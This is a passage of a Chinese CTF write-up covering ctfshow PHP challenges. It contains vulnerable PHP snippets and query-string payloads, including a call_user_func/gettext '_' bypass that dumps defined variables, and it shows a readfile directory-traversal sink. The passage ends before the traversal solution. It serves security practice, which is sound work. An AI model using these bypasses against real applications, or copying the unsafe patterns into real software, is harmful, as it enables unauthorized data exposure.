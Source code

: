 其中 `_`、`.`、`[`和`+`被过滤掉了，拿咱们可以用空格

```
?ctf%20show=ilove36d
```

## 128-gettext扩展-_()

```php
$f1 = $_GET['f1'];
$f2 = $_GET['f2'];

if(check($f1)){
    var_dump(call_user_func(call_user_func($f1,$f2)));
}else{
    echo "嗯哼？";
}

function check($str){
    return !preg_match('/[0-9]|[a-z]/i', $str);
}
```

> 知识点：
>
> - [PHP: Gettext - Manual](https://www.php.net/manual/zh/book.gettext.php)
>   [关于php中gettext的用法？ - toxic - 博客园](https://www.cnblogs.com/lost-1987/articles/3309693.html)
>
>   在开启gettext拓展后，`_()`等效于gettext()，是gettext()的拓展函数；开启text扩展，需要php扩展目录下有php_gettext.dll
>   （简单概括一下大概就是一个字符串处理的函数或者说功能,用于进行字符替换等等；如果是未定义的字符，会直接返回原字符）
>
> - `get_defined_vars()函数`
>   get_defined_vars — 返回由所有已定义变量所组成的数组

那么`call_user_func(call_user_func('_','get_defined_vars'))`就等效于`call_user_func('get_defined_vars')`
然后再把get_defined_vars返回的数组var_dump出来

check函数把字母数字都过滤了，不过这里只对f1进行正则匹配
那就：

```
?f1=_&f2=get_defined_vars
```

## 129-目录穿越

```php
if(isset($_GET['f'])){
    $f = $_GET['f'];
    if(stripos($f, 'ctfshow')>0){
        echo readfile($f);
    }
}
```

